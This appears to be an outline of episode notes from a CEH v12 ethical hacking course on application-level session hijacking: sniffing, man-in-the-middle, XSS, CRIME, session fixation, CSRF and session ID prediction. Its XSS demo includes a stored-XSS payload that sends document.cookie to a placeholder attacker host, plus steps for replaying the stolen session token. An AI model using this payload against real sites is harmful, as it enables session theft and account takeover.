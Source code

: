 - Filename: eccouncil-ceh31250-v12-11-3-1-application-level-session-hijacking.md
- Show Name: CEHv12 (312-50)
- Topic Name: Network and Perimeter Hacking: Session Hijacking
- Episode Name: Application Level Session Hijacking
================================================================================


Application Level Session Hijacking
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------
- List and define common Application-Level Session Hijacking attacks
--------------------------------------------------------------------------------


+ What are some of the common App-Level Session Hijacking attacks we should be
  aware of?
  - Sniffing
    + Just sniff network traffic and intercept session tokens/IDs
  - MitM
    + Employ MitM to enable traffic sniffing
  - MitB
    + Malware-based approach
      - Malware hooks the browser and intercepts session info
  - XSS
    + **DEMO**
      - Reflected
      - DOM-based
      - Stored | Persistent
        + Attacker setup:
          - Setup HTTP listener with Python
          - `<script>new Image().src="http://ATTACK-IP/bogus.php?output="+document.cookie;</script>`
        + Target then browses to 'blog'
          - Target token shows up in Attack HTTP log
        + Attacker then copies token and logs into Web site
          - Ctrl-Shift-I to start browser Dev tools
            + Storage
              - Paste token into PHPSESSID value
                + Reload page (you are now logged in as AIM)
  - CRIME
    + Compression Ratio Info-Leak Made Easy
    + Exploits a vulnerability in the use of compression features found in
      - HTTPS/SSL/TLS
      - SPDY (pronounced 'speedy')
  - Session Fixation and Donation
    + Sites that transmit Session tokens via the URL are susceptible
      - **Fixation**
        + Get an anonymous session token
          - Craft an email link (social engineering)
            + User clicks link
              - Gets sent to login page to authenticate
                + User logs in and continues to use session token from Phish
                  - Attacker can now use the same session token and be authenticated
                    as the target user
      - **Donation**
        + Same as Fixation with one small change
          - Attacker uses their authenticated session token
  - CSRF
    + Attack Setup
      - Use password change URL to set change victim password
      - Get Target to click malicious link
        + Social Engineering
        + XSS
          - Set this as Stored XSS in 'blog'
      - Target
        + Clicks malicious link
        + Browses to Stored XSS page
  - Session ID prediction
    + http://example.com/webapp?sessid=3
      - What happens when you change '3' to '0'?
